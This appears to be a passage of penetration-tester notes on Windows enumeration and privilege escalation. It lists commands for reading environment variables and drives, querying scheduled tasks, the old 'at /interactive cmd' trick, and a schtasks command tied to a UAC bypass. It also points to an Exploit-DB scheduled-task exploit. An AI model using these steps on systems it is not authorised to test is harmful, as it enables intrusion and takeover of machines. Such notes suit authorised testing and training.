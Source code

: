 

#### set 
set shows all current environmental variables. Specific ones to look for are 

USERDOMAIN, USERNAME, USERPROFILE, HOMEPATH, LOGONSERVER, COMPUTERNAME, APPDATA, and ALLUSERPROFILE.

```
set
```

#### drives info

Must be an administrator to run this, but it lists the current drives on the system.

fsutil fsinfo drives

reg query HKLM /s /d /f "C:\* *.exe" | find /I "C:\" | find /V """"

#### Scheduled tasks



schtasks /query /fo LIST /v

Check this file:

c:\WINDOWS\SchedLgU.Txt

### check runas

```
runas administrator
```

#### AT command schedule an interactive command

Get the current time of the workstation

C:\> at 12:51 /interactive cmd

After the at command reconfirm your access privs

### schedule task to bypass UAC

https://pentestlab.blog/2017/05/03/uac-bypass-task-scheduler/

```
C:\>SchTasks /Create /SC DAILY /TN "NoUAC" /TR "C:\Users\User\Desktop\pentestlab3
.exe" /ST 23:36
```

### Scheduled tasks privescalation 

https://www.exploit-db.com/exploits/15589/

just upload to target and run it like a .exe the file is a windows scripting file. remember to change the username and password within the file. 

### unquoted service paths
